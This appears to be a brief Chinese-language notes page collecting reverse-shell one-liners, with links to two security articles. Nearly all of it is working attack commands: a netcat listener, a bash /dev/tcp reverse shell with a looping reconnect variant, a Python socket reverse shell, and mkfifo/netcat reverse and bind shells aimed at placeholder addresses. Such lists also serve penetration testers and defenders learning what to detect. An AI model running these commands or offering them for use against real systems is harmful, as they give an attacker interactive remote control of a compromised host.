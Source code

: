 

---



## nc做反弹shell


https://xz.aliyun.com/t/2549
https://www.freebuf.com/articles/system/10632.html

用这个接住：

```
$ nc -l -p 2333 -vvv
```

## Bash



```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

反复连接：

```
$ while true; do bash -i >& /dev/tcp/127.0.0.1/2333 0>&1; sleep 10; done
```

## Python

```
$ python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## NC

```
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f |/bin/sh -i 2>&1 |nc 10.0.0.1 2333 >/tmp/f

# 正向
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f |/bin/sh -i 2>&1 |nc -l -p 2333 >/tmp/f
```
